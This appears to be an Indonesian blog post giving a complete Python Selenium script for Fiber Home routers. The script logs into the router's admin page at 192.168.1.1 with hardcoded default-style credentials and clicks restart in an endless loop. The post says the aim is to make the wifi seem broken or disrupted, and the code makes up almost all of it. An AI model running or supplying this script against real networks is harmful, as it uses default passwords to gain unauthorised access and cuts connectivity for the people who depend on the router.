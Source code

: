 ```yaml
---
date: '2025-06-11T21:05:42+08:00'
draft: False
title: 'Automasi Reboot Router (Fiber Home HG614D2)'
tags: ["python", "automation", "selenium"]
---
```

Script untuk mereboot router secara terus menerus, sehingga membuat wifi / router tampak seperti dalam gangguan / masalah.

Contoh kasus :
- Router Fiber Home HG6145D2

Requirement:
- Python
- [Library selenium](https://pypi.org/project/selenium/)
- Webdriver dari browser ([ChromeDriver](https://googlechromelabs.github.io/chrome-for-testing/) : driver dari browser chrome)

Code:
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.support.ui import WebDriverWait
import os
import time

username = "user"
password = "user1234"

os.environ['PATH'] = r'D:\\2.Area\\python\\automation_reboot\\chromedriver'
options = Options()
options.add_argument("--no-sandbox")
options.add_argument("--headless")
driver = webdriver.Chrome(options=options)

  
def reboot():
    try:
        driver.get("http://192.168.1.1/html/login_inter.html")
        driver.find_element("id","user_name").send_keys(username)
        driver.find_element("id","loginpp").send_keys(password)
        driver.find_element("id","login_btn").click()
        time.sleep(3)

        driver.find_element("id","first_menu_manage").click()
        time.sleep(3)

        driver.find_element("id","span_device_admin").click()
        time.sleep(3)

        a = driver.find_element(By.CSS_SELECTOR, "iframe")
        driver.switch_to.frame(a)
        driver.find_element(By.ID, "Restart_button").click()

        wait = WebDriverWait(driver, timeout=2)

        alert = wait.until(lambda d : d.switch_to.alert)
        alert.accept()
        time.sleep(3)

        print("berhasil reboot")

    except Exception:
        time.sleep(30)
        print("error")

def main():
    while(True):
        reboot()

if __name__ == "__main__":
    main()
```